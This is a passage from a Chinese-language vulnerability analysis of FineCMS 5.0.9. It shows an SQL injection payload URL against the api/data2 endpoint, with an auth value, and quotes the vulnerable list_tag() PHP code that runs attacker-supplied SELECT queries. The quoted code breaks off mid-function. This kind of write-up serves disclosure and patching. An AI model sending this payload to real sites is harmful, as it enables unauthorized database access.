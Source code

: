 payload:

```php
index.php?c=api&m=data2&auth=50ce0d2401ce4802751739552c8e4467&param=action=sql%20sql='select%20user();'
```

执行效果

![](http://osn75zd5c.bkt.clouddn.com/fincms-5.0.9-9.png)

### 漏洞原理剖析

与代码执行漏洞相似，传入的参数进入data2()函数，接着传入了/finecms/dayrui/libraries/Template.php中的list_tag()函数中，经过提取action后传入switch-case语句中的sql部分(732-795行)


```php
case 'sql': // 直接sql查询
	if (preg_match('/sql=\'(.+)\'/sU', $_params, $sql)) {
	    // 数据源的选择
	    $db = $this->ci->db;
	    // 替换前缀
	    $sql = str_replace(array('@#S', '@#'), array($db->dbprefix . $system['site'], $db->dbprefix), trim(urldecode($sql[1])));
	    if (stripos($sql, 'SELECT') !== 0) {
	        return $this->_return($system['return'], 'SQL语句只能是SELECT查询语句');
	    }
	    $total = 0;
	    $pages = '';
	    // 如存在分页条件才进行分页查询
	    if ($system['page'] && $system['urlrule']) {
	        $page = max(1, (int)$_GET['page']);
	        $row = $this->_query(preg_replace('/select \* from/iUs', 'SELECT count(*) as c FROM', $sql), $system['site'], $system['cache'], FALSE);
	        $total = (int)$row['c'];
	        $pagesize = $system['pagesize'] ? $system['pagesize'] : 10;
	        // 没有数据时返回空
	        if (!$total) {
	            return $this->_return($system['return'], '没有查询到内容', $sql, 0);
	        }
	        $sql.= ' LIMIT ' . $pagesize * ($page - 1) . ',' . $pagesize;
	        $pages = $this->_get_pagination(str_replace('[page]', '{page}', urldecode($system['urlrule'])), $pagesize, $total);
	    }
	    $data = $this->_query($sql, $system['site'], $system['cache']);
	    $fields = NULL;
	    if ($system['module']) {
	        $fields = $this->ci->module[$system['module']]['field']; // 模型主表的字段
	        
	    }
	    if ($fields) {
	        // 缓存查询结果
	        $name = 'list-action-sql-' . md5($sql);
	        $cache = $this->ci->get_cache_data($name);
	        if (!$cache && is_array($data)) {
	            // 模型表的系统字段
	            $fields['inputtime'] = array('fieldtype' => 'Date');
	            $fields['updatetime'] = array('fieldtype' => 'Date');
            	// 格式化显示自定义字段内容
                foreach ($data as $i => $t) {
	                $data[$i] = $this->ci->field_format_value($fields, $t, 1);
	            }
	            //$cache = $this->ci->set_cache_data($name, $data, $system['cache']);
	            $cache = $system['cache'] ? $this->ci->set_cache_data($name, $data, $system['cache']) : $data;
```